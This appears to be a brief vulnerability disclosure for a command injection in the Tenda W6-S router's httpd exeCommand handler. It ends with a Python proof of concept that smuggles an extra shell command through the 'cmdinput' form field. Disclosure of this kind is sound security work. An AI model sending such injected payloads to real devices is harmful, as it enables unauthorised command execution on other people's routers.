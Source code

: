 # command injection

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a command injection in httpd/formexeCommand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](1.png)

get value from cmdinput

![](2.png)

then pass to tpi_get_ping_output, split the string and call popen, cause command execution 

## POC
```
url = "http://192.168.1.13/goform/exeCommand"
payload = 'asd;ls  > ./tmp/hack;aa'

r = requests.post(url, data={'cmdinput': payload})
``` 
